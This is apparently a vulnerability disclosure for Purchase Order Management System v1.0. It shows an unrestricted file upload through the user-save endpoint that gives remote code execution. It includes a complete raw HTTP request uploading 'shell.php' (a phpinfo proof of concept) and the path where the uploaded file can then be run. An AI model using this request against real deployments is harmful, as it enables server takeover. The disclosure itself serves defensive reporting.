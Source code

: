 ## Purchase-order-management-system v1.0 by oretnom23 has arbitrary code execution (RCE)

vendors: https://www.sourcecodester.com/php/14935/purchase-order-management-system-using-php-free-source-code.html

Vulnerability url: http://ip/purchase_order/admin/?page=user

Request package for file upload：

```sql
POST /purchase_order/classes/Users.php?f=save HTTP/1.1
Host: 192.168.1.19
Content-Length: 799
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylz8EuWf30x9QqTzc
Origin: http://192.168.1.19
Referer: http://192.168.1.19/purchase_order/admin/?page=user/manage_user&id=3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=sils4jibq9sp4e2n7i4joq8to7
Connection: close

------WebKitFormBoundarylz8EuWf30x9QqTzc
Content-Disposition: form-data; name="id"

3
------WebKitFormBoundarylz8EuWf30x9QqTzc
Content-Disposition: form-data; name="firstname"

Mike 
------WebKitFormBoundarylz8EuWf30x9QqTzc
Content-Disposition: form-data; name="lastname"

Williams
------WebKitFormBoundarylz8EuWf30x9QqTzc
Content-Disposition: form-data; name="username"

mwilliams
------WebKitFormBoundarylz8EuWf30x9QqTzc
Content-Disposition: form-data; name="password"


------WebKitFormBoundarylz8EuWf30x9QqTzc
Content-Disposition: form-data; name="type"

2
------WebKitFormBoundarylz8EuWf30x9QqTzc
Content-Disposition: form-data; name="img"; filename="shell.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundarylz8EuWf30x9QqTzc--
```

The file will be uploaded to the `uploads` directory

![image](https://user-images.githubusercontent.com/54017627/160133754-0ddda336-7dc0-4ae6-bb1e-c1d58c6f76e8.png)

We visit the url of the shell.php file and find that the code has been executed

Url: http://ip/purchase_order/uploads/1648212480_shell.php

![image](https://user-images.githubusercontent.com/54017627/160133929-c5ce83f9-cd97-4603-8083-7b7a1f898515.png)
